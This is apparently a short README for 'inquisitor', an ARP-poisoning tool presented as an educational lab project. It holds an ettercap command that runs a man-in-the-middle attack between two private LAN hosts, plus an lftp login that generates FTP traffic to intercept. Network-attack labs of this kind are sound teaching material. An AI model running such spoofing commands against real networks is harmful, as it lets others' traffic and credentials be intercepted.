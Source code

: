 # inquisitor
ARP poisoning tool for educational purpose

```shell
ettercap -T -S -i eth0 -M arp:remote /192.168.1.2// /192.168.1.3//

lftp ftp://ftpuser@192.168.1.2
```
